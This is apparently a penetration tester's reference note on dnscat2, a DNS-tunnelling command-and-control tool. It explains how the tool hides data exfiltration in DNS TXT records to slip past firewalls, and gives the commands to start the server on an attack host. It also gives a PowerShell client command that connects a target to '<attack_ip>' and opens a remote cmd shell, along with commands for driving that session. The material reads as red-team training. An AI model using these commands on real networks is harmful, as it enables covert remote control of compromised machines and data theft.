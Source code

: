 ```table-of-contents
title: ## Table of Contents
style: nestedList # TOC style (nestedList|nestedOrderedList|inlineFirstLevel)
minLevel: 0 # Include headings from the specified level
maxLevel: 3 # Include headings up to the specified level
includeLinks: true # Make headings clickable
debugInConsole: false # Print debug info in Obsidian console
```

## Summary
[Dnscat2](https://github.com/iagox86/dnscat2) is a tunnelling tool that uses the [[DNS]] protocol to encapsulate the traffic. It uses an encrypted *command & control* (*C2*) channel to send data inside TXT records. Pretty much any [[Active Directory]] domain will its own DNS server that will rout traffic to external DNS servers participating in the internet's DNS system. However, with `dnscat2`, the address resolution is requested from an external server. This means that when a local DNS within the network tries to resolve an address, data is exfiltrated and sent in place of legitimate DNS requests.

*This is a really stealthy approach to exfiltrate data while evading firewall detections which sniff the traffic and strip the HTTPS connections*. We can host the `dnscat2` server on our attack machine and execute the client on the target server.
## Installation
```
git clone https://github.com/iagox86/dnscat2.git

git clone https://github.com/lukebaggett/dnscat2-powershell.git
```

## Documentation
**Cheatsheet:** 
**Website:** 
- https://github.com/iagox86/dnscat2
- https://github.com/lukebaggett/dnscat2-powershell.git
## Usage
### Start the DNS server (on the attack host)
```bash
cd dnscat2/server/
sudo gem install bundler
sudo bundle install
```
Start the server, this will give us a secret key that will be used by the clients to encrypt
```bash
sudo ruby dnscat2.rb --dns host=<attack_ip>,port=53,domain=<our_domain_name/domain_to_impersonate> --no-cache
```

### Start the client on the target
> example uses powershell client
```powershell
Import-Module .\dnscat2.ps1
Start-Dnscat2 -DNSserver <attack_ip> -Domain <domain> -PreSharedSecret <secret> -Exec cmd
```

### Sending commands to the client
> These commands are run, from the server, after a connection has been established
#### Display the help & available options
```batch
?

* echo
* help
* kill
* quit
* set
* start
* stop
* tunnels
* unset
* window
* windows
```
#### Interacting with the established session
```batch
:: Create a new interactive window
window -i 1
```
> Anything written in this session will be sent 'as-is' to the client to execute. Anything typed on the client or printed will be displayed 'as-is' on the screen.